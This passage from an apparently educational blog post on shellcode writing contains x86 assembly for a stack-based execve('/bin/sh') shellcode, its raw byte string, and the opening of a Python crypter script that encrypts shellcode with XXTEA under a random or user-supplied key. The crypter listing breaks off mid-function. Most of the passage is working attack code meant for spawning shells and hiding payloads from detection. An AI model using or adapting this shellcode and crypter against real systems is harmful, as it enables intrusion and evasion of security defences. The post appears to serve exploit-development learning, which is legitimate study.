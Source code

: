 	; /usr/include/i386-linux-gnu/asm/unistd_32.h:
	;
	; system call prototype is: 
        ; int execve(const char *filename, char *const argv[], 
	; 		char *const envp[]);

	push 0x68732f2f		; pushing //bin/sh into the stack
	push 0x6e69622f		; the init double / is for alignment purpose

	mov ebx, esp		; pointer to *filename

	; I will optimize further my execve-stack shellcode. Since I don't care
	; about passing parameters to my shell and to pass the environment
	; pointer, I can initialize to zero both ECX and EDX registers.
	;
	; This will be equivalent to the call: execve("/bin/sh", 0, 0) that it
	; is legit.
	xor ecx, ecx
	xor edx, edx

	mov al, 0xb		; execve = 11
	int 0x80

{% endhighlight %}

However, the crypter tool accepts also a custom encryption key and a custom
shellcode to be used instead of the default one.

{% asciicast 198703 %}

Here you can find the source code for the crypter script:

{% highlight python %}

#!/usr/bin/env python

import random, string, getopt, xxtea, sys

def help():
    print sys.argv[0] + " [options]"
    print "Valid options:"
    print "\t-h, --help: show this help"
    print "\t-k, --key: specify the encryption key"
    print "\t-s, --shellcode: specify the shellcode to be used"

    return 0

def generate_key():
    k=''.join(random.choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for _ in range(16));
    return k;

def encrypt(shellcode, key):
    enc = xxtea.encrypt(shellcode, key);
    return enc;

def main(argv):
    # Default behaviour is to generate a random key and to use an
    # execve("/bin/sh") shellcode
    key = generate_key();
    shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";

    try:
        opts, args=getopt.getopt(argv, "hk:s:", ["help", "key", "shellcode"] )
    except getopt.GetoptError:
        help()